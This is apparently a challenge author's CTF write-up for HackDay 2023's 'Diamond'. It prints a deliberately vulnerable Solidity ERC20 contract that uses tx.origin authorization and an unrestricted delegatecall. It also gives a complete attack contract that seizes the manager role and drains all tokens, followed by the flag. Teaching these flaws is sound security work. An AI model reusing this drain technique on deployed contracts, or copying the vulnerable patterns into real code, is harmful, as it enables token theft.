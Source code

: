 ```yaml
---
title: Diamond
description: Exploitation of tx.origin and delegatecall to steal ERC20 tokens
summary: Exploitation of tx.origin and delegatecall to steal ERC20 tokens
date: 2023-03-24
tags:
- Web3
ctf:
- HackDay 2023
draft: false
---
```


**Note**: this is the write up of a challenge I created, as a challenge creator for the HackDay 2023 qualifications. The challenge source code can be found in the [CTF repository](https://github.com/ChallengeHackDay/2023-qualif).

> You've got the documents you need. \
> The last thing you need to do before you leave is to mess with the enemy blockchain to paralyze the outpost completely and be able to sneak away in the middle of the general panic. \
> Grab all their cash!

We're given the following contract:

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// The following contract is vulnerable on purpose: DO NOT COPY AND USE IT ON MAINNET!
contract Diamond is ERC20("Diamond", "DMD") {
    address private manager;
    address private extension;
    mapping(address => bool) private redeemers;
    uint256 private bonusRedeemsLeft = 5;
    uint256 private constant diamond = 10 ** 18; // 18 is the default decimals number

    constructor() {
        manager = msg.sender;
        _mint(address(this), 1000 * diamond);
    }

    function recovery(address newManager) public {
        require(tx.origin == manager);
        manager = newManager;
    }

    function getFirstRedeemerBonus() public {
        require(bonusRedeemsLeft > 0);
        require(redeemers[msg.sender] == false);
        bonusRedeemsLeft -= 1;
        redeemers[msg.sender] = true;
        bool success = this.transfer(msg.sender, 5 * diamond);
        require(success);
    }

    function setExtension(address newExtension) public {
        require(msg.sender == manager);
        extension = newExtension;
    }

    function callExtension(bytes memory _data) public {
        (bool success, ) = extension.delegatecall(_data);
        require(success);
    }
}
```

## Overview of the contract

The contract handles an ERC20 token named Diamond or DMD. When created, it gives 1000 DMD to itself. It exposed a `getFirstRedeemerBonus` function to allow anyone to get 5 DMD to begin with, for a maximum of 5 different accounts. Because of this limitation, we can't use this function to empty the initial balance of the contract. \
The important part is the `setExtension`, `callExtension` and `recovery` functions. These functions can only be used by the manager, which is the address of the deployer of the contract, and allow to respectively add an address as an extension, call the extension and change the manager.

## Vulnerabilities

There are two different vulnerabilities in the contract that will allow us to reach our goal:

- the usage of `tx.origin` instead of `msg.sender`
- the delegatecall to an arbitrary address

### tx.origin

The usage of `tx.origin` for authorization is a [big mistake](https://swcregistry.io/docs/SWC-115). If we manage to make the current manager send a transaction to a contract we control, the contract can in turn call the `recovery` function and the `require(tx.origin == manager)` check will be a success.

If you did pay attention to the faucet page, something very important was written...

![](images/faucet.png)

> Useful note: this faucet is also the account used to deploy the contracts.

Now we have our attack path to become the manager! Just create a contract with a fallback function that calls `recovery` with the address we want as the new manager, and ask the faucet to give some money to our attack contract to trigger the execution of the fallback. That's it!

### delegatecall

A delegatecall isn't inherently vulnerable, but when the delegatecall is made to an untrusted address, the callee has [full control](https://swcregistry.io/docs/SWC-112) over the caller contract storage and balance.

Now that we're manager, we can use `setExtension` to update the extension address with our attack contract, and finally use `callExtension` to execute whatever function we want of our attack contract in the context of the Diamond one.

Because our contract will be called via a delegatecall, it will access the Diamond contract storage and functions instead of his own, just as if the code executed in our contract was executed in the Diamond contract.

To steal all the ERC20 tokens, all we have to do now is to call the ERC20 `transfer` function to move all the tokens from the Diamond contract's balance to any other one.

## The exploitation contract

If we put everything together in one single attack contract, we get the following.

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "../contracts/Diamond.sol";

contract DiamondAttack {
    Diamond diamond;

    constructor(address _diamond) {
        diamond = Diamond(_diamond);
    }

    fallback() external payable {
        diamond.recovery(address(this));
        diamond.setExtension(address(this));
        diamond.callExtension(abi.encodeWithSignature("steal()"));
    }

    // no need to define the code of these functions because the fact that they are called through a delegatecall will make them execute the functions of the Diamond contract instead
    function transfer(address to, uint256 amount) public returns (bool) {}
    function balanceOf(address account) public returns (uint256) {}

    function steal() public {
        // because this function will be called through a delegate call, the value of address(this) will be the address of the Diamond contract and not of our Attack contract
        bool success = this.transfer(<any address you want>, this.balanceOf(address(this)));
        require(success);
    }
}
```

We just need to create it with the address of the Diamond contract we want to attack, and ask the faucet to give it money to trigger the fallback. The contract will become the new manager, register itself as the extension, and call the `steal` function using the delegatecall so that the function is executed in the context of the Diamond contract and move all the tokens owned by the contract to another address.

Once done, the Diamond contract doesn't have anything left in its balance, as expected.

![](images/balance.png)

We've reached our goal! We can now get the flag by clicking the check button on the challenge page.

![](images/flag.png)

Flag: `HACKDAY{4ll_d14m0nds_succ3ssfully_st0l3n}`